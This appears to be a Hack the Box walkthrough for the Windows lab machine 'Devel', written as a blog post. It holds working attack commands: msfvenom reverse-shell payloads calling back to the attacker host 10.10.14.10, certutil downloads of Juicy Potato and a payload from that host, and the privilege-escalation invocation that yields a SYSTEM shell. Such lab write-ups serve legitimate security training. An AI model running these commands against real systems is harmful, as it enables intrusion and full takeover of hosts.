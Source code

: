 ```yaml
---
title: Hack the Box - Devel
date: 2022-08-08 18:42:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


# Devel Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.5|Devel|Windows|

## Path to Exploitation

On this machine, we will take advantage of a convenient FTP server that accepts anonymous logins and is placed directly in the website's root directory. Then we'll take advantage of our local user's permissions and use the Juicy Potato exploit to elevate our privileges to SYSTEM.

# Enumeration

## Full Port Scan

```bash
nmap 10.10.10.5 -p- -oA Devel/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|21|ftp|
|80|http|

## Service Scan

```bash
nmap 10.10.10.5 -p 21,80 -sC -sV -oA Devel/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|21|ftp|ftpd|
|80|http|IIS httpd 7.5|

# FTP

We see we have anonymous access to the FTP server
![FTP Anon Access](/assets/HackTheBox/Devel/ftp-anon.png "Anonymous FTP Access")

Which appears to be the root directory of an IIS server. We can try to leverage this to gain a shell by uploading a payload to the website.

# Shell on Host

Create the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.aspx
```

Upload the file to the FTP server
![Upload Payload](/assets/HackTheBox/Devel/file-upload.png "Upload Payload")

Setup a listener and navigate to the payload on the web server
![Trigger Payload](/assets/HackTheBox/Devel/trigger-payload.png "Trigger the Payload")

We see we got a shell as the web user

![Intial Foothold](/assets/HackTheBox/Devel/initial-foothold.png "Intial Foothold")

# Local Enumeration

## Username Enumeration
```shell
C:\> whoami /priv
```

![Whoami Privs](/assets/HackTheBox/Devel/whoami-privs.png "Whoami Privileges")

## System Information
```shell
C:\> systeminfo
```
![System Info](/assets/HackTheBox/Devel/system-info.png "System Info")

We can consider using the Juicy Potato exploit

# Privilege Escalation

Generate the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the juicy potato exploit file and the reverse shell payload to the host
```shell
C:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
C:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

setup a listener and execute the exploit
```shell
C:\> juicy.exe -l 1337 -p C:\tmp\evil.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```

Checking back on the listener we see we have a shell running as the SYSTEM account

![SYSTEM Shell](/assets/HackTheBox/Devel/system-shell.png "SYSTEM Shell")